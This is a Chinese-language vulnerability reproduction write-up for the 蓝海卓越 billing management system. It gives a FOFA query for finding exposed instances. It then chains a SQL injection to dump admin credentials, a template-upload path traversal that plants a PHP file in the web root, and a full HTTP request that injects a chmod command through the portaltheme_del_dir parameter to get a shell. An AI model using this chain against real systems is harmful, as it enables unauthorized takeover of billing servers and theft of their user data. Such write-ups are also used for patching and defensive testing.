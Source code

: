 # 蓝海卓越计费管理系统多漏洞导致getshell

# 一、漏洞简介
 蓝海卓越认证计费管理系统是一套以实现网络运营为基础，增强全局安全为中心，提高管理效率为目的的网络安全运营管理系统，提供“高安全、可运营、易管理”的运营管理体验，基于标准的RADIUS协议开发，它不仅支持PPPOE和WEB认证计费，还支持802.1X接入控制技术，与其他厂商支持相应标准的产品兼容，结合蓝海卓越的PPPOE服务器网关，可提供更加丰富的功能。，另外，友好的Web访问管理的方式，为用户提供更好用、易用的方式，更贴心的使用形式。蓝海卓越计费管理系统多漏洞导致getshell

# 二、影响版本
+ 蓝海卓越 计费管理系统

# 三、资产测绘
+ fofa`title=="蓝海卓越计费管理系统"`
+ 特征

![1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9.png](./img/qe1tkFLp9GezjB1g/1716136162798-aa34ed6f-ea20-43f2-99a7-dba6a1e626c9-253370.png)

# 四、漏洞复现
```plain
/ajax/loaduser.php?UserName=1
```

通过注入跑出账号密码

![1716389345421-9e38d8dd-0c85-4c42-ac5d-d9fb1116d3a3.png](./img/qe1tkFLp9GezjB1g/1716389345421-9e38d8dd-0c85-4c42-ac5d-d9fb1116d3a3-823276.png)

使用MD5解密出密码后登录系统

![1716389833186-8bbff4b6-dff5-46f8-855d-a6a901787035.png](./img/qe1tkFLp9GezjB1g/1716389833186-8bbff4b6-dff5-46f8-855d-a6a901787035-819521.png)

![1716389848399-cb2cc634-200c-4818-be59-4381433c5a6b.png](./img/qe1tkFLp9GezjB1g/1716389848399-cb2cc634-200c-4818-be59-4381433c5a6b-844579.png)

点击PORTAL模板下面的PORTAL模板管理，选择上传模板

![1716390460832-fd0d98ce-26e8-41ea-973e-95e1b6ae9522.png](./img/qe1tkFLp9GezjB1g/1716390460832-fd0d98ce-26e8-41ea-973e-95e1b6ae9522-847896.png)

[root.zip](https://www.yuque.com/attachments/yuque/0/2024/zip/29512878/1716438804359-a43f8695-df0c-4b28-83bc-e23064072257.zip)

由于新版本系统的模板位置不在web路径下，所以需要穿越模板路径

Web绝对路径：

```plain
/usr/local/usr-gui/
```

模板路径：

```plain
/mnt/mysql/usr/local/portal/themes/20240519093115_xxx/
```

制作一个如下的压缩包：

![1716389926031-814570a6-da10-4a06-ab0b-d76d6c891411.png](./img/qe1tkFLp9GezjB1g/1716389926031-814570a6-da10-4a06-ab0b-d76d6c891411-903276.png)

test.php内容为：字符编码必须为Unix(LF)

```plain
#!/bin/php
<?php
phpinfo();
?>
```

![1716390048945-ca864ffe-6e01-4bb6-8592-e78b6a92518e.png](./img/qe1tkFLp9GezjB1g/1716390048945-ca864ffe-6e01-4bb6-8592-e78b6a92518e-619177.png)



上传zip压缩包

![1716390233650-ab77d4c6-3b4f-47a0-a7ae-3118efd6819f.png](./img/qe1tkFLp9GezjB1g/1716390233650-ab77d4c6-3b4f-47a0-a7ae-3118efd6819f-134490.png)

Shell位置为：

```plain
/test.php
```

但是访问时会提示：

![1716390275360-c5689377-8edc-4977-a8dd-7f3449abc878.png](./img/qe1tkFLp9GezjB1g/1716390275360-c5689377-8edc-4977-a8dd-7f3449abc878-072747.png)

接下来就需要使用后台命令执行漏洞进行权限赋予：

```plain
GET /ajax_check.php?portaltheme_del_id=4&portaltheme_del_dir=%2Fmnt%2Fmysql%2Fusr%2Flocal%2Fportal%2Fthemes%2F20210519093903_738%2F|chmod+755+/usr/local/usr-gui/test.php HTTP/1.1
Host: 
Accept: */*
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36 SE 2.X MetaSr 1.0
Referer: http://124.114.151.106:8880/portaltheme_list.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: mylang=zh_s; PHPSESSID=lp91fvnja6f987dj7jmkjh5601
Connection: close

```

![1716390344536-d72391d6-2178-4dfa-ac0e-72962047e530.png](./img/qe1tkFLp9GezjB1g/1716390344536-d72391d6-2178-4dfa-ac0e-72962047e530-418615.png)

之后再次访问

```plain
/test.php
```

![1716390374521-ebe7f986-e300-4ac6-8b2a-d9e26cf8f674.png](./img/qe1tkFLp9GezjB1g/1716390374521-ebe7f986-e300-4ac6-8b2a-d9e26cf8f674-878726.png)



> 更新: 2024-05-23 12:33:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dbwc8rx9kq4t14eb>